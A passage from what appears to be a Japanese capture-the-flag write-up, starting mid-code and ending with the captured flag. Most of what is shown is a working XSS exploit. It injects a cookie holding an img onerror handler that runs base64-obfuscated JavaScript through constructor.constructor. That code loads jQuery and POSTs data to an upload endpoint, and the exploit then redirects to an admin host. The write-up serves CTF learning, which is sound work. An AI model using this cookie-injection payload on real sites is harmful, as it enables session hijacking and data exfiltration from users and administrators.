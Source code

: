 ```html
      url: '/upload',\
      data: data,\
      contentType: false,\
      processData: false,\
      type: 'POST',\
      success: function (data) {\
        f(data);\
      },\
      error: function (data) {\
        f('error:' + JSON.stringify(data));\
      }\
    });\
  };\
  js.src = '//code.jquery.com/jquery-3.2.0.js';\
  document.body.appendChild(js);\
} catch (e) {\
  f('error:' + e.message);\
}\
";

document.cookie = "username=<img src=x onerror=\"''.constructor.constructor(atob('" + btoa(payload) + "'))()\">; domain=.government.vip; path=/";
document.cookie = "session=%s; domain=.government.vip; path=/";
location.href = 'http://admin.government.vip:8000';
</script>
```

で `solve.py` を実行するとフラグが手に入れられました。

```
flag{xss_is_fun_2333333}
```
